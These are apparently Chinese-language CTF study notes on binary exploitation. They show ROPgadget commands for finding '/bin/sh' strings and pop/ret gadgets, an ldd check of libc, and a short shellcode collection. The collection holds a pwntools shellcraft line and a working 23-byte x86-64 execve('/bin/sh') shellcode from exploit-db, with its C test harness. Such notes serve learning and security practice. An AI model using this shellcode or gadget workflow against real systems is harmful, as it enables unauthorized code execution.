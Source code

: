# ROPgadgets操作整理

## 查找字符串

```bash
ROPgadget --binary rop  --string '/bin/sh'
```

返回值：

```
Strings information
============================================================
0x080be408 : /bin/sh
```

## 查找某个指令

```bash
ROPgadget --binary rop  --only 'int'
```

返回值：

```
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

## 经典操作

```bash
ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
```

返回值：

```
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

# ldd命令查看libc

```bash
➜  pwn-study ldd ret2libc3
	linux-gate.so.1 =>  (0xf7fd7000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7dfc000)
	/lib/ld-linux.so.2 (0xf7fd9000)
```



# shellcode 整理

整理一些用过的 shellcode

https://www.exploit-db.com/shellcode/

## Linux_x86

### 1 pwntools shellcraft

```python
shellcode = asm(shellcraft.sh())
```



## Linux_x86-64

### 1 Linux/x64 - execve(/bin/sh) Via Push Shellcode (23 bytes)

https://www.exploit-db.com/exploits/36858/

```c
/*
    #
    # Execve /bin/sh Shellcode Via Push (Linux x86_64 23 bytes)
    #
    # Dying to be the shortest.
    #
    # Copyright (C) 2015 Gu Zhengxiong (rectigu@gmail.com)
    #
    # 27 April 2015
    #
    # GPL
    #
 
 
    .global _start
_start:
    # char *const argv[]
    xorl %esi, %esi
 
    # 'h' 's' '/' '/' 'n' 'i' 'b' '/'
    movq $0x68732f2f6e69622f, %rbx
 
    # for '\x00'
    pushq %rsi
 
    pushq %rbx
 
    pushq %rsp
    # const char *filename
    popq %rdi
 
    # __NR_execve 59
    pushq $59
    popq %rax
 
    # char *const envp[]
    xorl %edx, %edx
 
    syscall
 */
 
/*
  gcc -z execstack push64.c
 
  uname -r
  3.19.3-3-ARCH
 */
 
#include <stdio.h>
#include <string.h>
 
int
main(void)
{
  char *shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
    "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
 
  printf("strlen(shellcode)=%d\n", strlen(shellcode));
 
  ((void (*)(void))shellcode)();
 
  return 0;
}
```

